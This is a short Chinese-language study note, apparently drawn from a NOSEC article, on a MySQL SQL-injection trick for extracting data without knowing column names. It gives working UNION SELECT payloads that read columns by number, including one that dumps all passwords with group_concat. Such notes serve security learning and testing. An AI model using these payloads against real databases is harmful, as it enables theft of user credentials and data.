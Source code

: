 ## 在无法得到列名下进行注入 ##
- - -
从这篇文章学习的：[如何在不知道MySQL列名的情况下注入出数据？\|NOSEC安全讯息平台 - NOSEC.ORG](https://nosec.org/home/detail/2245.html)

此方法适用于以下：
```
盲注的时候跑不出列名
```

利用条件：
```
知道列名的个数
```

mysql命令行测试：
```
表名为：users
users表里面的列名有：id,username,password
列的个数为3 (1,2,3) (1=>id,2=>username,3=>password)
```

查询语句为：
```mysql
select * from users where id=1
```

payload：
```mysql
union select 1,(select `2` from (select 1,2,3 union select * from users)a limit 1,1),3
```
结果：
![kDA439.png](https://s2.ax1x.com/2019/02/14/kDA439.png)

靶场测试：
![kDAIj1.png](https://s2.ax1x.com/2019/02/14/kDAIj1.png)

查询全部payload:
```mysql
union select 1,(select group_concat(`2`) from (select 1,2,3 union select * from users)a),3
```
![](https://s2.ax1x.com/2019/02/14/kDuV8U.png)

![kDuZ2F.md.png](https://s2.ax1x.com/2019/02/14/kDuZ2F.md.png)